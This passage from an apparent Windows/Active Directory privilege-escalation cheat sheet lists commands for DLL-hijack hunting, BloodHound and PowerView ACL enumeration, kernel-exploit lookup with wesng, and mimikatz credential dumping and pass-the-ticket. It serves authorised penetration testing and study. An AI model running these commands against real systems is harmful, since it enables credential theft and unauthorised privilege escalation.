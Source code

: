 ```
PS > Find-PathDLLHijack
```

## Domain object permissions
  *  Hunt for [ACL/ACE](https://learn.microsoft.com/en-us/windows/win32/ad/how-access-control-works-in-active-directory-domain-services) misconfigs granting control over domain objects
  *  `bloodhound` useful for finding AD abuse paths
      *  Deploy `SharpHound` or the like and import data
      *  `bloodhound-python` for remote ingestion
      *  View nodes of owned principals and resolve transitive access rights
  *  `PowerView.ps1` cmdlet useful for quickly seeing some of these
      *  Find "interesting" ACEs and filter based on objects of interest

```
sudo neo4j start
bloodhound
```

```
bloodhound-python -d 'example.com' -u 'bob' -p 'password123' -c all
.\SharpHound.exe -c all
```

```
PS > Find-InterestingDomainAcl | select-object -expandproperty SecurityIdentifier -unique | Convert-SidToName
PS > Find-InterestingDomainAcl | where-object -property SecurityIdentifier -eq $("exampleDomain\bob" | Convert-NameToSid)
PS > Find-InterestingDomainAcl -ResolveGUIDs | where-object -property SecurityIdentifier -eq $("exampleDomain\bob" | Convert-NameToSid)
```

## Kernel exploits
  *  [Enumerate patch level](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#version-info-enumeration) and search accordingly
  *  `Google`, `searchsploit`, and `wesng` for finding Windows kernel exploits

```
git clone https://github.com/bitsadmin/wesng
./wes.py systeminfo.txt --update
./wes.py systeminfo.txt
./wes.py systeminfo.txt --exploits-only
```

```
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

## Credential dumping
  *  Dump various types of credentials using `mimikatz`  
      *  Includes passwords, hashes, and kerberos tickets
      *  Capable of exporting/importing kerberos tickets to disk/memory
      *  Be careful not to purge any kerberos tickets you want to keep!
  *  Check your current kerberos tickets with `klist`  

```
klist
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::tickets
mimikatz # sekurlsa::tickets /export
mimikatz # kerberos::purge
mimikatz # kerberos::ptt [0;1a796e]-2-0-60a10000-bob@krbtgt-exampleDomain.local.kirbi
```
